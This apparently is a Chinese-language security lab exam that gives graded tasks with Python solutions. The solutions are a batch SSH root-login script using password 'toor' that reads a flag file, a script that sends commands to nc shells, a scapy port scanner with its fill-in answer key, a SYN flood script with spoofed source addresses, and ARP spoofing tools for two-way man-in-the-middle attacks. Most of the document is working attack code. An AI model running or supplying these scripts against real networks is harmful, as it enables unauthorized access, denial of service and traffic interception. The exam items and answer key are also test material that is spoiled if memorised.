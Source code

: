 

##### 1. 在靶机中搭建ssh服务，在kali机中编写自动化批量连接ssh获取/root/flagvalue.txt并输出 20

>成功搭建ssh服务，在root目录下创建flagvalue.txt文件 8
>
>可以设定不同网段 例如: 192.168.1.2-192.168.2.2-192.168.3.2... 6
>
>成功实现效果 6

```
import paramiko

def con(cip,cport,cuser,cpasswd):
	try:
		ssh=paramiko.SSHClient()
		ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
		ssh.connect(cip,cport,cuser,cpasswd,timeout=1)
		i,o,e=ssh.exec_command("cat /root/flagvalue.txt")
		print(o.read().decode(),end="")
	except:
		pass

for i in range(160,200):
	ip="172.17.%s.171" % i
	print("connecting "+ip)
	con(ip,22,"root","toor")
```

##### 2. 在靶机中运行nc文件，在kali机中编写自动化批量连接nc获取/root/flagvalue.txt并输出 15

>将nc文件放入靶机中，在root目录下创建flagvalue.txt文件 8
>
>可以设定不同网段 例如: 192.168.1.2-192.168.2.2-192.168.3.2... 2
>
>可以设定nc端口列表 2
>
>成功实现效果 3



```
import socket
import paramiko

def con(cip,cport):
	try:
		s=socket.socket()
		s.settimeout(1)
		s.connect((cip,cport))
		s.send("cat /root/flagvalue.txt\n".encode())
		print(s.recv(1024).decode())
	except:
		pass

for i in range(169,170):
	ip="172.17.%s.171" % i
	for port in [8083,8085]:
		con(ip,port)

```



##### 3.使用python编写客户端和服务端，使用socket模块，实现客户端发送消息，服务端接收消息  10

>成功实现客户端 5
>
>成功实现服务端 5

server:

```
import socket
s=socket.socket()
s.bind(("127.0.0.1",8888))
s.listen()
a,m=s.accept()
print(a.recv(1024).decode())
s.close()
```

```
import socket
s=socket.socket()
s.connect(("127.0.0.1",8888))
a=input("write your message>")
s.send(a.encode())
s.close()

```



##### 4.填下下方flag到本文件内 25

```python
import F1
from F2 import F3, F4, F5, sr1, sr

if len(F1.argv)!=4:
    print('Usage:PortScan <IP> <port1> <port2>\n eg:PortScan 192.168.1.1 20 80')
    F1.exit(1)

dst_ip=F1.argv[1]
src_port=F3()

for dst_port in range(int(F1.argv[2]),int(F1.argv[3])+1):
    packet=F4(dst=dst_ip)/F5(sport=src_port, dport=dst_port, F7="S")
    resp=sr1(packet,timeout=10)
    if(str(type(resp))=="<class 'NoneType'>"):
        print("The port %s is not replied" %(dst_port))
    elif (resp.haslayer(F5)):
        if(resp.F6(F5).flags==0x12):
            sr(F4(dst=dst_ip)/F5(sport=src_port, dport=dst_port, F7='AR'),timeout=10)
            print("The port %s is Open" %(dst_port))
        elif (resp.F6(F5).flags==0x14):
            print("The port %s is Closed" %(dst_port))
    else:
        F1.exit(0)
```

| F         | 答案             | 分值 |
| --------- | ---------------- | ---- |
| F1        | sys              | 5    |
| F2        | scapy.all        | 5    |
| F3, F4,F5 | RandShort,IP,TCP | 5    |
| F6        | getlayer         | 5    |
| F7        | flags            | 5    |
|           |                  |      |

##### 5.使用python编写synflood脚本 10

>使用optparse模块初始化参数 ip port 5
>
>成功实现效果 5




```
from scapy.all import *
import random
import optparse

def syn(dip,dp):
	while True:
		sip=str(random.randint(1,255))+"."+str(random.randint(1,255))+"."+str(random.randint(1,255))+"."+str(random.randint(1,255))
		sp=random.randint(100,25535)
		packet=IP(src=sip,dst=dip)/TCP(dport=dp,sport=sp,flags="S")
		print(sip+"-"+str(sp)+" ---> "+dip+"-"+str(dp))		
		send(packet)
opt=optparse.OptionParser()
opt.add_option("-i",dest="ip")
opt.add_option("-p",dest="port")
v,n=opt.parse_args()
ip=v.ip
port=int(v.port)
syn(ip,port)
```



##### 6. 使用python编写 arpspoof脚本 20

>编写对网关的arpspoof脚本 10
>
>编写对主机的arpspoof脚本 10



```
from scapy.all import *

interface = "eth0"
src_mac = get_if_hwaddr(interface)

print(src_mac)

def arpuser():
	while True:
		packet=Ether(src=src_mac)/ARP(pdst="172.17.169.154",psrc="172.17.169.190")
		sendp(packet)
def arpgateway():
	while True:
		packet=Ether(src=src_mac)/ARP(pdst="172.17.169.190",psrc="172.17.169.*")
		sendp(packet)


arpuser()
```

最全教程

```
from scapy.all import *
import argparse
import threading 

threads = 10
src_ip = "192.168.88.130"
"""
hwsrc	源mac
hwdst	目标mac
psrc	源ip
pdst	目标ip
"""

#     ====双向欺骗====
def full_packet(src_mac,dst_mac,gateway_ip,dst_ip):
	# 发给被欺骗的机器
	# 源ip		网关ip
	# 源mac		自己的mac
	# 目标ip	被欺骗机器ip
	# 目标mac	被欺骗机器mac
	eth = Ether(src = src_mac,dst = dst_mac)
	arp = ARP(op="is-at",hwsrc=src_mac,hwdst=dst_mac,psrc=gateway_ip,pdst=dst_ip)
	pkt = eth/arp
	return pkt

def gateway_packet(src_mac,gateway_mac,dst_ip,gateway_ip):
	# 发给网关
	# 源ip		被欺骗机器ip
	# 源mac		自己的mac
	# 目标ip	网关ip
	# 目标mac	网关mac
	eth = Ether(src = src_mac,dst = gateway_mac)
	arp = ARP(op="is-at",hwsrc=src_mac,hwdst=gateway_mac,psrc=dst_ip,pdst=gateway_ip)
	pkt = eth/arp
	return pkt

def main():
	parser = argparse.ArgumentParser()
	parser.add_argument('-g','--gateway',dest="gateway",action="store")
	parser.add_argument('-i','--interface',dest="interface",action="store")
	parser.add_argument('-f','--full',dest='full',action="store")
	args = parser.parse_args()# 解析
	gateway_ip = args.gateway# 网关的ip							网关ip
	gateway_mac = getmacbyip(gateway_ip)# 得到网关的mac			网关mac
	dst_ip = args.full#目标ip									目标ip
	dst_mac = getmacbyip(dst_ip)#得到目标mac					目标mac
	interface = args.interface#源网卡
	src_mac = get_if_hwaddr(interface)#从源网卡提取出网卡mac	网卡名->源mac
	
	pkt_dst = full_packet(src_mac,dst_mac,gateway_ip,dst_ip)#送去打包
	pkt_gateway = gateway_packet(src_mac,gateway_mac,dst_ip,gateway_ip)#送去打包
	
	while True:
		t = threading.Thread(target=sendp,args=(pkt_dst,),kwargs={'inter':1,'iface':interface})
		t.start()
		t.join()
		print "[*]send a full packet"
		s = threading.Thread(target=sendp,args=(pkt_gateway,),kwargs={'inter':1,'iface':interface})
		s.start()
		s.join()
		print "[*]send a gateway packet"

if __name__ == "__main__":
	main()

```

